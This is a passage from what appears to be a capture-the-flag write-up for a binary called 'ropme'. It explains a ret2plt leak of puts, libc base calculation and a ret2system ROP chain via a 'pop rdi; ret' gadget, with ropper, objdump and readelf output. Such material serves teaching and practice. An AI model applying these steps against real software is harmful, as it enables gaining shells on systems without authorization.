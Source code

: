 After that we call the main function and overwrite the return address with a gadget that will pop the value of `/bin/sh` into the `RDI` register and call return straight away using `pop rdi; ret`. But we will have to ensure that the string `/bin/sh` is on the stack at the time of calling `pop rdi; ret`. We then call the system function right after that.

To bypass DEP we need to use Return Oriented Programming (ROP) and if we want a shell we need to call `system("/bin/sh")`. The first argument in x86_64 Linux is `RDI` as explained before.

We perform `ret2plt` to leak the address of `puts` and calculate the address of `libc` using the leaked address and then ret2system by calculating the address of `system` from the CORRECT version of `libc`.


To manually find the `pop rdi; ret` gadget we can use `ropper` to search inside the binary.

```
$ ropper --file ropme --search "pop rdi"                                                                                                                         130 ⨯
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ropme
0x00000000004006d3: pop rdi; ret; 
```

To search for `puts@plt` and the `main@plt` offsets we can use `objdump` inside the binary.

```
$ objdump -D ropme |grep puts
00000000004004e0 <puts@plt>:
  4004e0:       ff 25 32 0b 20 00       jmpq   *0x200b32(%rip)         601018 <puts@GLIBC_2.2.5>
  40063a:       e8 a1 fe ff ff          callq  4004e0 <puts@plt>
```


```
$ objdump -D ropme | grep main
00000000004004f0 <__libc_start_main@plt>:
  4004f0:       ff 25 2a 0b 20 00       jmpq   *0x200b2a(%rip)        # 601020 <__libc_start_main@GLIBC_2.2.5>
  400554:       e8 97 ff ff ff          callq  4004f0 <__libc_start_main@plt>
0000000000400626 <main>:
```

We grap the libc puts offset so we can calculate it at run time.
```
$ readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep puts
   195: 00000000000765f0   472 FUNC    GLOBAL DEFAULT   14 _IO_puts@@GLIBC_2.2.5
   430: 00000000000765f0   472 FUNC    WEAK   DEFAULT   14 puts@@GLIBC_2.2.5
   505: 0000000000102a10  1268 FUNC    GLOBAL DEFAULT   14 putspent@@GLIBC_2.2.5
   692: 0000000000104690   696 FUNC    GLOBAL DEFAULT   14 putsgent@@GLIBC_2.10
  1160: 0000000000074f20   380 FUNC    WEAK   DEFAULT   14 fputs@@GLIBC_2.2.5
```  

